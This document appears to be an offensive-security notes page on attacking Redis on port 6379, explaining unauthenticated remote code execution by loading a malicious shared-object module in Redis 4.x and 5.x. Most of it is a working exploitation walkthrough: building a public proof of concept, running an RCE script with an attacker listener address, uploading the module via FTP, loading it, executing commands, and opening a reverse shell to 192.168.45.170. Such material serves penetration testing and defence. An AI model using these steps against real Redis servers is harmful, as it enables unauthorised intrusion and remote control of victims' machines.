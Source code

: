 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 6379 - Redis

Redis is an open-source, in-memory key-value data store used for high-performance caching, message brokering, and real-time analytics. It supports a variety of data structures like strings, hashes, lists, sets, and sorted sets, and operates entirely in memory for speed, with optional persistence to disk. By default, Redis listens on TCP port `6379` and **has no authentication or encryption unless explicitly configured**, which often makes it a target during red team operations.

## Unauthenticated Root RCE

### Vulnerability Overview

In Redis `4.x` and `5.x` instances the ability to load shared object (`.so`) modules at runtime can leveraged to gain RCE. Exploitation requires two conditions to be met:

1. **Privileged Access to Redis** → The attacker must be able to issue privileged Redis commands such as `MODULE LOAD`. This is possible if the Redis instance is exposed to the internet without authentication or the attacker has acquired valid credentials to an authenticated instance. In addition, Redis must not restrict module loading; unless explicitly disabled, this capability is broadly accessible in insecure deployments.
2. **Writable Location on Target Filesystem** → The attacker must be able to place a malicious `.so` file on the target machine. Two main techniques can be used:
   1. Abuse Redis’s persistence settings: using `CONFIG SET dir` and `CONFIG SET dbfilename`, combined with `SAVE`, an attacker can write arbitrary files to locations such as `/tmp/`.
   2. Upload externally: if another service (e.g., FTP) exposes a writable path, the attacker can upload the `.so` file and instruct Redis to load it by its absolute path.

Once the malicious module is in place, Redis will load it and execute the attacker's code within the server's process space, effectively achieving RCE.

### Exploitation

For either case, a `.so` file must be created. This can be done via the original [PoC](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) or its modified [more modern version](https://github.com/CSpanias/redis-module-rce):

{% code overflow="wrap" %}
```bash
~$ git clone https://github.com/CSpanias/redis-module-rce && cd redis-module-rce && make
<SNIP>
gcc -Wall -fPIC -O2 -std=gnu99 -Imodule -shared -o module.so module/module.c

~/redis-module-rce$ ls -l module.so
-rwxr-xr-x 1 x7331 x7331 38704 Aug  1 14:29 module.so

~/redis-module-rce$ file module.so
module.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=c35119dc82e22bb135fb85215b9c0f40c98edde4, not stripped
```
{% endcode %}

{% tabs %}
{% tab title="Redis Persistence Settings" %}
This [PoC](https://github.com/CSpanias/redis-module-rce) can be used to leverage the Redis settings:

```bash
./redis-rce.py --rhost redis-instance --lhost 192.168.45.170
```
{% endtab %}

{% tab title="External Upload" %}
If `write` access to the target host is already obtained, i.e., via FTP, the `.so` file can be uploaded and then loaded into Redis:

```bash
# Upload the .so file to the target host via FTP
$ ftp ftp@redis-target
ftp> cd pub
ftp> put module.so
ftp>exit
​
# Connect to the Redis instance
$ redis-cli -h redis-target
redis-target:6379> MODULE LOAD /var/ftp/pub/module.so # Load the module
OK

redis-target:6379> MODULE LIST # Confirm that the module is loaded
1) 1) "name"
   2) "system" # The function of interest
   3) "ver"
   4) (integer) 1

redis-target:6379> system.exec "id" # System command execution

redis-target:6379> system.rev 192.168.45.170 6379 # Reverse shell
```
{% endtab %}
{% endtabs %}



